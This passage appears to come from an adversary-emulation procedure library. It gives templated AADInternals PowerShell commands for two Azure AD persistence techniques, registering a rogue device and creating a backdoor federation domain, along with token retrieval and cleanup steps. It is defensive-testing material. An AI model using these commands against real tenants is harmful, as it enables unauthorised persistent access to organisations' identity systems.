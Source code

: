 ```
CMD> net user /delete {{ username }}
```

## Persistence in Azure AD - Register a New Device

Register a new device in Azure AD

### Prerequisites

- Azure AD credentials
- AAD Internals PowerShell module (https://aadinternals.com/aadinternals/#installation)
  - Install: `PS> install-module aadinternals -scope currentuser`
  - Import: `PS> import-module aadinternals`

### Guidance

Authenticate to Azure AD and save the token

```
PS> Get-AADIntAccessTokenForAADJoin -SaveToCache
```

Register a device: 

```
PS> Join-AADIntDeviceToAzureAD -DeviceName "{{ device_name }}" -DeviceType "{{ device_type }}" -OSVersion "{{ os_version }}" -JoinType Register
```

  - This will save a `.pfx` certificate to the current working directory, which is needed for cleanup
  - Note: The provided values do not need to refer to real characteristics

### Cleanup

Remove the device from Azure AD 

```
PS> Remove-AADIntDeviceFromAzureAD -PfxFileName {{ pfx_certificate_file }}
```

## Azure AD Domain Federation - Backdoor via AADInternals

Use AADInternals to create a backdoor federation domain for persisting access to an environment.

### Prerequisites

- Permissions to modify domain authentication settings
  - and an access token for the user with these permissions, referred to as `$at` in example commands. To retrieve a token, use `$at=Get-AADIntAccessTokenForAADGraph -Credentials (get-credential)` and proceed through the prompts
- AADInternals installed
  - `Install-Module AADInternals`
- A target verified domain in Azure AD
  - To add a domain, Go to Azure AD -> custom domain names -> add -> set the provided DNS records for your domain -> wait for the verification to compelete
- A user with an immutable ID set
  - To set an immutable ID for a user: `Set-AADIntUser -UserPrincipalName {{ upn_or_email }} -ImmutableId "{{ id }}" -AccessToken $at` where the `id` is an arbitrary unnique value
